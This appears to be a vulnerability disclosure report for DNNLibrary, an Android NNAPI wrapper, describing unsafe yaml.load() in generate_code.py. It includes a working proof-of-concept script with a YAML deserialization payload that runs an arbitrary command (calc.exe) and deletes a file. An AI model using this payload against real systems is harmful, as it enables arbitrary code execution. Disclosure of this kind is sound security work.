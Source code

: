 # Description

DNNLibrary is a wrapper of NNAPI ("DNNLibrary" is for "daquexian's NNAPI library). It lets you easily make the use of the new NNAPI introduced in Android 8.1. You can convert your onnx model into daq and run the model directly.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

```
# vulnerable part of code
https://github.com/JDAI-CV/DNNLibrary/blob/master/generate_code.py#L329
Note :
to apply a complete fix please do fix all the yaml.load() in the functions mentioned in the main().
```
```python
# exploit.py
import os
#os.system("git clone https://github.com/JDAI-CV/DNNLibrary.git")
os.chdir("DNNLibrary/")
os.system("rm ops.yml")
payload = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('calc.exe')"
"""
open("ops.yml","w+").write(payload)
os.system("python3 generate_code.py")
```

![](https://user-images.githubusercontent.com/43377443/105158203-ba2e7a80-5b33-11eb-8bab-e0ec49b18f58.PNG)
# Impact

Arbitary Code Execution
